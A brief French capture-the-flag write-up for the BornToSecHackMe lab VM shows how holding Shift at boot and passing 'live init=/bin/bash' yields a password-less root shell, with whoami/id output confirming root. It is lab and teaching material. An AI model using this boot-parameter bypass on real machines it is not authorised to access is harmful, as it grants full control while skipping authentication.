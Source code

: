 # Boot into Root Shell without Password
writeup 3

### Start virtual machine

En démarant la VM, appuyé sur la touche MAJ. On arrive aux options de boot.

### Commands

Cette commande va nous permettre de récupérer un shell root
```
boot: live init=/bin/bash
[...]
root@BornToSecHackMe:/# whoami
root
root@BornToSecHackMe:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### Screenshot

![screenshot](../screen/writeup2.png?raw=true)
